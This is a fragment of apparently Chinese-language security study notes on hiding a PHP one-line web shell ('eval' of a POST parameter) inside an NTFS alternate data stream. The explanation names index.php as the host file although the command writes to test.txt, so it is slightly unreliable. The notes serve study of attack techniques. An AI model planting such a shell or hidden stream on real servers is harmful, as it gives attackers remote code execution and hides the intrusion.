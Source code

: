   ![Alt text](../../cyber_security/images/image90.png)

- 利用ADS隐藏文件内容
  - 在服务器上echo一个数据流文件
  ```
  echo ^<?php @eval($_POST['test']);?^> > test.txt:hidden.jpg
  此时index.php变成了宿主文件，一句话木马寄宿在了index.php上，成为寄宿文件
  ```